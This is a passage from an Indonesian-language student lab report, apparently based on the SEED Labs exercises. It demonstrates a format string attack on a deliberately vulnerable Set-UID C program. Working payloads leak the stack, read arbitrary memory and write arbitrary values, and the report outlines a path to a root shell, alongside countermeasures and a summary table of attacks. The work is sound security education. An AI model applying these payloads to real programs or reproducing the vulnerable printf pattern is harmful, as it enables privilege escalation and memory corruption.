    printf("[DEBUG] msg    = \"%s\"\n", msg);
    printf("[DEBUG] &secret = %p\n", &secret);
}

int main(int argc, char *argv[])
{
    if (argc < 2) {
        printf("Usage: %s <format_string>\n", argv[0]);
        return 1;
    }

    printf("[*] Alamat secret: %p\n", &secret);
    printf("[*] Nilai secret sebelum: 0x%x\n", secret);

    vuln_func(argv[1]);

    printf("[*] Nilai secret sesudah: 0x%x\n", secret);
    return 0;
}
```

```bash
# Kompilasi dengan proteksi dinonaktifkan (32-bit)
gcc -m32 -g -z execstack -fno-stack-protector -o fmt_vuln fmt_vuln.c

# Set-UID (opsional untuk demonstrasi privilege escalation)
sudo chown root:root fmt_vuln
sudo chmod 4755 fmt_vuln
```

#### Task 2: Membaca Stack (Information Leak)

```bash
# Membaca isi stack menggunakan %x
./fmt_vuln "AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x"

# Output contoh:
# AAAA.bffff5a0.00000100.b7e2a700.41414141.38302528...
#                                   ^^^^^^^^
#                       "AAAA" (0x41414141) ditemukan di stack!
# 'AAAA' muncul di posisi ke-4 pada stack

# Menggunakan Direct Parameter Access (DPA) untuk efisiensi
./fmt_vuln "AAAA%4\$x"
# Output: AAAA41414141
# Konfirmasi: posisi ke-4 di stack berisi input kita
```

#### Task 3: Membaca Memori Arbitrary (`%s`)

```bash
# Letakkan alamat target di awal string, baca dengan %s
# Misalkan alamat msg = 0x0804a040 (dari output debug)
# Little-endian: \x40\xa0\x04\x08

./fmt_vuln $(printf "\x40\xa0\x04\x08")"%4\$s"
# Output: String yang tersimpan di alamat 0x0804a040
```

#### Task 4: Menulis ke Memori Arbitrary (`%n`)

```bash
# %n menulis jumlah karakter yang sudah dicetak ke alamat di stack
# Misalkan alamat secret = 0x0804a02c

# Tulis nilai kecil (misal 0x50 = 80 decimal)
./fmt_vuln $(printf "\x2c\xa0\x04\x08")"%.76x%4\$n"
# Penjelasan:
# - 4 bytes alamat + 76 padding = 80 karakter total
# - %4$n menulis 80 (0x50) ke alamat di posisi stack ke-4

# Verifikasi
# Output: secret = 0x50
```

#### Task 5: Menulis Nilai Arbitrary dengan `%hn` (Half-Word Write)

```bash
# Untuk menulis nilai besar (misal 0xBEEF), gunakan %hn
# %hn menulis 2 bytes (half-word) sekaligus

# Target: secret = 0xBEEF
# Alamat secret    = 0x0804a02c (low 2 bytes — 0xBEEF)
# Alamat secret+2  = 0x0804a02e (high 2 bytes — 0x0000)

# Low half: 0xBEEF = 48879 decimal
# High half: 0x0000 = padding minimal

./fmt_vuln $(printf "\x2c\xa0\x04\x08\x2e\xa0\x04\x08")"%.48871x%4\$hn%.16657x%5\$hn"
# 48871 + 8 (alamat) = 48879 = 0xBEEF (low half)
# 16657 tambahan = 65536 = 0x10000 (high half wraps to 0x0000)

# Verifikasi
# Output: secret = 0xbeef
```

### 3.4 Analisis Percobaan

**Mengapa format string attack bekerja:**

1. **Arsitektur Stack x86**: Ketika `printf(user_input)` dipanggil, fungsi `printf()` membaca argumen dari stack. Jika format string mengandung specifier seperti `%x`, `printf()` mengambil data dari posisi stack berikutnya — meskipun tidak ada argumen yang di-push untuk specifier tersebut.

2. **%n — Write Primitive**: Format specifier `%n` unik karena **menulis** ke memori (bukan membaca). Ia menulis jumlah byte yang sudah dicetak ke alamat yang ditunjuk oleh argumen di stack. Dengan mengontrol alamat di stack (melalui input string) dan jumlah karakter yang dicetak (melalui padding `%Nx`), penyerang dapat menulis nilai arbitrary ke alamat arbitrary.

3. **Direct Parameter Access**: Notasi `%k$x` memungkinkan akses langsung ke parameter ke-k di stack, menghindari kebutuhan untuk "pop" parameter satu per satu.

4. **Chain of Exploitation**:
   - **Step 1**: Leak alamat memori dengan `%x` / `%p`
   - **Step 2**: Baca data sensitif dengan `%s`
   - **Step 3**: Overwrite GOT entry / return address dengan `%n`
   - **Step 4**: Redirect execution ke shellcode → **root shell**

**Countermeasures:**
- Selalu gunakan `printf("%s", input)`, **bukan** `printf(input)`
- Kompilasi dengan `-Wformat -Wformat-security -Werror=format-security`
- Compiler modern (GCC 4.x+) memberikan warning untuk format string tidak aman
- ASLR dan stack canaries mempersulit eksploitasi di lingkungan produksi
- Gunakan `FORTIFY_SOURCE`: kompilasi dengan `-D_FORTIFY_SOURCE=2`

---

## Kesimpulan

| Serangan | Penyebab Utama | Dampak | Mitigasi |
|---|---|---|---|
| **ENV — fork()** | Pewarisan otomatis | Child process mewarisi semua env | Sanitasi env sebelum fork |
| **ENV — execve()** | Parameter envp tidak difilter | Kontrol penuh atas env | Gunakan allowlist env |
| **ENV — Set-UID** | PATH diteruskan, LD_* difilter | PATH hijacking mungkin | Absolute path, sanitasi PATH |
| **LD_PRELOAD** | Library injection pada program biasa | Function hooking | Dilindungi kernel untuk Set-UID |
| **PATH Manipulation** | Relative path pada `system()` | Root shell via program palsu | Absolute path, `execve()` |
| **Command Injection** | `system()` menggunakan shell | Root shell via semicolon | Gunakan `execve()` |
| **FD Leak** | File descriptor tidak ditutup | Write ke file root | `O_CLOEXEC`, close sebelum exec |
| **Format String** | `printf(user_input)` | Read/Write arbitrary memory, RCE | `printf("%s", input)` |

Eksperimen ini menunjukkan bahwa **input validation**, **principle of least privilege**, dan **pemilihan API yang aman** (`execve()` > `system()`) adalah fondasi keamanan software. Sebuah kesalahan pemrograman yang tampak minor (seperti lupa `%s` pada `printf()` atau tidak menutup file descriptor) dapat mengakibatkan kompromi total terhadap sistem.

---

## Referensi

1. Du, W. (2019). *Computer & Internet Security*, Chapter 1-3: Set-UID, Environment Variables, Format String.
2. SEED Lab — Set-UID: [https://seedsecuritylabs.org/Labs_20.04/Software/Set-UID/](https://seedsecuritylabs.org/Labs_20.04/Software/Set-UID/)
3. SEED Lab — Environment Variable: [https://seedsecuritylabs.org/Labs_20.04/Software/Environment_Variable_and_Set-UID/](https://seedsecuritylabs.org/Labs_20.04/Software/Environment_Variable_and_Set-UID/)
4. SEED Lab — Format String: [https://seedsecuritylabs.org/Labs_20.04/Software/Format_String/](https://seedsecuritylabs.org/Labs_20.04/Software/Format_String/)
5. CWE-134: Use of Externally-Controlled Format String — [https://cwe.mitre.org/data/definitions/134.html](https://cwe.mitre.org/data/definitions/134.html)

---

<p align="center"><em>R1 — Software Security Attack · Muhammad Tamim Nugraha · 5024231060</em></p>
